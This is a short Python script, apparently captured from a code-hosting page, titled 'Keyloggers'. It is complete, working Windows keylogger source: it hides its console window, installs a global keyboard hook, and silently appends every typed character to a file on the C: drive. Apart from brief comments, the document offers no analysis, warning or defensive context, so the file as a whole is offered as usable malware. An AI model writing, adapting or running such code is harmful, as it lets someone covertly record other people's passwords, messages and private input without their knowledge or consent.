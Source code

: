 # Keyloggers
import win32api
import win32console
import win32gui
import pythoncom
import pyHook
import sys

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

def OnKeyboardEvent(event):
    if event.Ascii == 5:
        sys.exit(1)
    if event.Ascii != 0 and event.Ascii != 8:
        # Open output.txt to read current keystrokes
        with open('c:\\output.txt', 'r+') as f:
            buffer = f.read()
            f.close()
        # Open output.txt to write current + new keystrokes
        with open('c:\\output.txt', 'w') as f:
            keylogs = chr(event.Ascii)
            if event.Ascii == 13:
                keylogs = '\n'
            buffer += keylogs
            f.write(buffer)
            f.close()

# Create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent

# Set the hook
hm.HookKeyboard()

# Wait forever
pythoncom.PumpMessages()
